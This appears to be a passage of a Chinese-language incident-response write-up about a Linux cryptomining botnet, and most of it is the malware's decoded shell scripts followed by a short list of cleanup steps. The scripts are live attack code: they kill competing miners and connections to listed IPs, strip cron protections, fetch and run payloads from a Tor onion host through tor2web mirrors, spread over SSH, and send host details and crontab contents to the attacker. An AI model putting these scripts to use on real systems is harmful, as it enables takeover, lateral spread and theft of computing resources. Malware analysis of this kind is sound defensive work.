x=./$(date|md5sum|cut -f1 -d-)
# 下载脚本
$c -x socks5h://$s:9050 $t.onion$f -o$x || $c $1$f -o$x
# 添加x权限，执行，删除
chmod +x $x;$x;rm -f $x
}

# dns解析
sockz
#
fexe
# 下载curl，cron等
isys
# 内网投毒，并在该机器上下载脚本执行
issh &
ibot $t.tor2web.in || ibot $t.tor2web.io || ibot $t.tor2web.su || iscn $t.onion.com.de || iscn $t.onion.sh
iscn $t.tor2web.in || iscn $t.tor2web.io || iscn $t.tor2web.su || iscn $t.onion.com.de || iscn $t.onion.sh
```
```shell
QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK
exec &>/dev/null
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin
find /etc/cron*|xargs chattr -i
find /var/spool/cron*|xargs chattr -i
crontab -l |grep -ivE "70OXQG|Malware|Miner|VUses5|\-unix|\.\/oka|\.configrc|\.rsync|\/upd|aliyun|basht|bffbe|curl|jqu\.js|kill_virus|kpccv|malware|mazec|nullc|qcloud|rvlss|ryukd|systemd-init|th2ps|titanagent|tmp00|ucxin|unixdb|unixoa|wget|wlvly|xzfix" |crontab -
crontab -l ;grep -iRE "70OXQG|Malware|Miner|VUses5|\-unix|\.\/oka|\.configrc|\.rsync|\/upd|aliyun|basht|bffbe|curl|jqu\.js|kill_virus|kpccv|malware|mazec|nullc|qcloud|rvlss|ryukd|systemd-init|th2ps|titanagent|tmp00|ucxin|unixdb|unixoa|wget|wlvly|xzfix" /etc/cron.*|cut -f 1 -d :|xargs rm -f
rm -f $HOME/.{kpccv,xzfix,th2ps,bffbe,rvlss,wlvly,ucxin,mazec,ryukd,unixdb,unixoa,aliyun,70OXQG,titanagent,VUses5}.sh
rm -f /opt/{kpccv,xzfix,th2ps,bffbe,rvlss,wlvly,ucxin,mazec,ryukd,unixdb,unixoa,aliyun,70OXQG,titanagent,VUses5}.sh
rm -f /etc/cron.d/0{kpccv,xzfix,th2ps,bffbe,rvlss,wlvly,ucxin,mazec,ryukd,unixdb,unixoa,aliyun,70OXQG,titanagent,VUses5}
rm -f /root/killMiner.sh /opt/killMiner.sh /home/kill_virus.sh /root/fixMalwareTemp.sh /root/.killer 
pkill -9 -f "./cron|./oka|\-unix|/tmp/ddgs|/tmp/idk|/tmp/java|/tmp/keep|/tmp/udevs|/tmp/udk|/tmp/update.sh|/tmp/yarn|/usr/bin/netfs|8220|AliHids|AliYunDun|descargars|Donald|HT8s|Jonason|steasec|salt-store|salt-minion|SzdXM|X13-unix|X17-unix|\[stea\]|aegis_|AliYunDun|AliHids|AliHips|AliYunDunUpdatealiyun-service|azipl|bash64|bigd1ck|cr.sh|crloger|cronds|crun|cryptonight|curn|currn|ddgs|dhcleint|fs-manager|gf128mul|havegeds|httpdz|irqbalanced|java-c|kaudited|kdevtmpfsi|kerberods|khugepageds|kinsing|kintegrityds|kpsmouseds|kswaped|kthreadds|kthrotlds|kw0|kworkerds|kworkre|kwroker|lsof|lopata|Macron|mewrs|migrations|miner|mmm|mr.sh|muhsti|mygit|netdns|networkservice|orgfs|pamdicks|pastebin|qW3xT|qwefdas|rctlcli|sleep|stratum|sustes|sustse|sysguard|sysguerd|systeamd|systemd-network|sysupdate|sysupdata|t00ls|thisxxs|Trump|update.sh|vTtHH|watchbog|watchbug|watchog|wipefs|wnTKYg|x3Wq|xig|xmr|zer0"
netstat -antp|grep -E "103.3.62.64|104.140.201.42|104.140.244.186|107.178.104.10|107.191.99.221|107.191.99.95|116.203.73.240|131.153.56.98|131.153.76.130|136.243.102.154|138.201.20.89|138.201.27.243|138.201.36.249|139.162.132.70|139.162.60.220|139.162.81.90|139.99.101.197|139.99.101.198|139.99.101.232|139.99.102.70|139.99.102.71|139.99.102.72|139.99.102.73|139.99.102.74|139.99.120.50|139.99.120.75|139.99.123.196|139.99.124.170|139.99.125.38|139.99.156.30|139.99.68.128|142.44.242.100|142.44.243.6|144.217.14.109|144.217.14.139|147.135.37.31|149.202.42.174|149.202.83.171|15.236.100.141|151.80.144.188|158.69.25.62|158.69.25.71|158.69.25.77|163.172.203.178|163.172.206.67|163.172.207.69|163.172.226.114|163.172.226.137|172.104.143.224|172.104.151.232|172.104.159.158|172.104.165.191|172.104.247.21|172.104.76.21|172.105.205.58|172.105.205.68|172.105.210.117|172.105.211.250|172.105.235.97|178.63.100.197|18.180.72.219|18.210.126.40|192.110.160.114|192.99.69.170|195.154.62.247|195.201.12.107|199.231.85.124|207.246.100.198|213.32.29.143|213.32.74.157|217.182.169.148|23.88.160.140|3.0.193.200|37.187.95.110|37.59.43.131|37.59.44.193|37.59.44.93|37.59.54.205|37.59.55.60|37.9.3.26|45.32.71.82|45.76.65.223|45.79.192.137|45.79.200.97|45.79.204.241|45.79.210.48|46.4.120.18|47.101.30.124|5.196.13.29|5.196.23.240|51.15.54.102|51.15.55.100|51.15.55.162|51.15.58.224|51.15.65.182|51.15.67.17|51.15.69.136|51.15.78.68|51.255.34.118|51.255.34.79|51.255.34.80|51.81.245.40|54.188.223.206|54.37.7.208|66.42.105.146|78.46.49.222|78.46.87.181|81.25.55.79|81.91.189.245|88.99.142.163|88.99.193.240|88.99.242.92|91.121.140.167|94.130.12.27|94.130.12.30|94.130.143.162|94.130.165.85|94.130.165.87|94.130.239.15|94.23.23.52|94.23.247.226|95.216.209.67|205.185.118.204|63.250.33.43|185.199.11|139.99.121.227|199.192.30.2"|awk {'print $NF'} |cut -d/ -f1|xargs kill -9
ss -antp |grep -E "103.3.62.64|104.140.201.42|104.140.244.186|107.178.104.10|107.191.99.221|107.191.99.95|116.203.73.240|131.153.56.98|131.153.76.130|136.243.102.154|138.201.20.89|138.201.27.243|138.201.36.249|139.162.132.70|139.162.60.220|139.162.81.90|139.99.101.197|139.99.101.198|139.99.101.232|139.99.102.70|139.99.102.71|139.99.102.72|139.99.102.73|139.99.102.74|139.99.120.50|139.99.120.75|139.99.123.196|139.99.124.170|139.99.125.38|139.99.156.30|139.99.68.128|142.44.242.100|142.44.243.6|144.217.14.109|144.217.14.139|147.135.37.31|149.202.42.174|149.202.83.171|15.236.100.141|151.80.144.188|158.69.25.62|158.69.25.71|158.69.25.77|163.172.203.178|163.172.206.67|163.172.207.69|163.172.226.114|163.172.226.137|172.104.143.224|172.104.151.232|172.104.159.158|172.104.165.191|172.104.247.21|172.104.76.21|172.105.205.58|172.105.205.68|172.105.210.117|172.105.211.250|172.105.235.97|178.63.100.197|18.180.72.219|18.210.126.40|192.110.160.114|192.99.69.170|195.154.62.247|195.201.12.107|199.231.85.124|207.246.100.198|213.32.29.143|213.32.74.157|217.182.169.148|23.88.160.140|3.0.193.200|37.187.95.110|37.59.43.131|37.59.44.193|37.59.44.93|37.59.54.205|37.59.55.60|37.9.3.26|45.32.71.82|45.76.65.223|45.79.192.137|45.79.200.97|45.79.204.241|45.79.210.48|46.4.120.18|47.101.30.124|5.196.13.29|5.196.23.240|51.15.54.102|51.15.55.100|51.15.55.162|51.15.58.224|51.15.65.182|51.15.67.17|51.15.69.136|51.15.78.68|51.255.34.118|51.255.34.79|51.255.34.80|51.81.245.40|54.188.223.206|54.37.7.208|66.42.105.146|78.46.49.222|78.46.87.181|81.25.55.79|81.91.189.245|88.99.142.163|88.99.193.240|88.99.242.92|91.121.140.167|94.130.12.27|94.130.12.30|94.130.143.162|94.130.165.85|94.130.165.87|94.130.239.15|94.23.23.52|94.23.247.226|95.216.209.67|205.185.118.204|63.250.33.43|185.199.11|139.99.121.227|199.192.30.2" |awk -F, {'print $2'}|sed 's/pid=//g' |xargs kill -9 
chattr -i /etc/hosts
grep -q onion /etc/hosts && sed -i '/onion/d' /etc/hosts
grep -q tor2w /etc/hosts && sed -i '/tor2w/d' /etc/hosts
grep -R /tmp/.X11-unix /root/*|cut -d: -f1|xargs rm -f 
grep -R /tmp/.X11-unix /opt/*|cut -d: -f1|xargs rm -f 


```
```shell
QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK
exec &>/dev/null
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6)
c=$(echo "curl -4fsSLkA- -m200")
t=$(echo "4k6jta4zrwzm7u54am3vnjpnlvlbujyvrtprytf4scmrw7u3udmgqaqd")

sockz() {
n=(doh.defaultroutes.de dns.hostux.net dns.dns-over-https.com uncensored.lux1.dns.nixnet.xyz dns.rubyfish.cn dns.twnic.tw doh.centraleu.pi-dns.com doh.dns.sb doh-fi.blahdns.com fi.doh.dns.snopyta.org dns.flatuslifir.is doh.li dns.digitale-gesellschaft.ch)
p=$(echo "dns-query?name=relay.tor2socks.in")
s=$($c https://${n[$((RANDOM%13))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|sort -uR|head -1)
}

fexe() {
for i in /dev/shm /usr/bin $d /tmp /var/tmp ;do echo exit > $i/i && chmod +x $i/i && cd $i && ./i && rm -f i && break;done
}

u() {
sockz
fexe
f=/cpu
x=./$(date|md5sum|cut -f1 -d-)
$c -x socks5h://$s:9050 $t.onion$f -o$x || $c $1$f -o$x
chmod +x $x;$x;rm -f $x
}

for h in tor2web.in tor2web.su tor2web.io tor2web.to onion.sh onion.com.de
do
if ! ls /proc/$(head -1 /tmp/.X11-unix/11)/maps; then
u $t.$h
else
break
fi
done


```
```shell
QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK
exec &>/dev/null
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6)
c=$(echo "curl -4fsSLkA- -m200")
t=$(echo "4k6jta4zrwzm7u54am3vnjpnlvlbujyvrtprytf4scmrw7u3udmgqaqd")

sockz() {
n=(doh.defaultroutes.de dns.hostux.net dns.dns-over-https.com uncensored.lux1.dns.nixnet.xyz dns.rubyfish.cn dns.twnic.tw doh.centraleu.pi-dns.com doh.dns.sb doh-fi.blahdns.com fi.doh.dns.snopyta.org dns.flatuslifir.is doh.li dns.digitale-gesellschaft.ch)
p=$(echo "dns-query?name=relay.tor2socks.in")
s=$($c https://${n[$((RANDOM%13))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|sort -uR|head -1)
}

u() {
sockz
f=/cmd
$c -x socks5h://$s:9050 $t.onion$f || $c $1$f
}
(
u $t.tor2web.in ||
u $t.tor2web.io ||
u $t.tor2web.su ||
u $t.onion.com.de ||
u $t.onion.sh ||
u $t.tor2web.to
)|bash
```
```shell
QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK
exec &>/dev/null
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6)
c=$(echo "curl -4sSLkA- -m200")
t=$(echo "4k6jta4zrwzm7u54am3vnjpnlvlbujyvrtprytf4scmrw7u3udmgqaqd")

sockz() {
n=(doh.defaultroutes.de dns.hostux.net dns.dns-over-https.com uncensored.lux1.dns.nixnet.xyz dns.rubyfish.cn dns.twnic.tw doh.centraleu.pi-dns.com doh.dns.sb doh-fi.blahdns.com fi.doh.dns.snopyta.org dns.flatuslifir.is doh.li dns.digitale-gesellschaft.ch)
p=$(echo "dns-query?name=relay.tor2socks.in")
s=$($c https://${n[$((RANDOM%13))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|sort -uR|head -1)
}

ibot() {
sockz
f=/bot
r=$(curl -4fsSLk checkip.amazonaws.com||curl -4fsSLk ip.sb)_$(whoami)_$(uname -m)_$(uname -n)_$(ip a|grep 'inet '|awk {'print $2'}|md5sum|awk {'print $1'})_$(crontab -l|base64 -w0)
$c -X POST -x socks5h://$s:9050 -e$r $t.onion$f || $c -X POST -e$r $1$f
}

ibot $t.tor2web.in || ibot $t.tor2web.io || ibot $t.tor2web.su || ibot $t.onion.com.de || ibot $t.tor2web.to || ibot $t.onion.sh


```
```shell
QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK
chattr -i /tmp/.X11-unix
chattr -Ri /tmp/.X11-unix
[ -f /tmp/.X11-unix ] && rm -f /tmp/.X11-unix 
[ -d /tmp/.X11-unix ] || mkdir -p /tmp/.X11-unix
```
## 应急过程

1. 卸载`curl`命令，防止外连，先降低cpu（脚本未使用 wget，apt，yum 等下载curl，而是使用本机的curl去执行动作）
2. 椒图查看进程 -> 无果（当时未发现恶意进程）
3. 椒图查看日志 ->  发现了恶意的进程，但是pid都执行完就给删除了，在服务器里未查询到执行生成病毒文件，定时任务的pid和文件
4. 椒图扫描恶意二进制文件 -> 发现恶意的二进制文件（已被删除）,但进程还存在（椒图给报了）
5. 查看该进程的内存块，使用`gdb attch ${pid}`，发现确实有删除文件的那一段内存，`dump memory`进程地址，只有第一段内存能dump下来，（删除文件那段内存已经不存在了），dump下第一段内存，发现了执行内容（base64编码），全部解码发现不能解码成功，但是发现有多处`|base64 -d|`，挨个解码发现，发现了该病毒注入到内存 ，所以清理不掉
6. 重启服务器
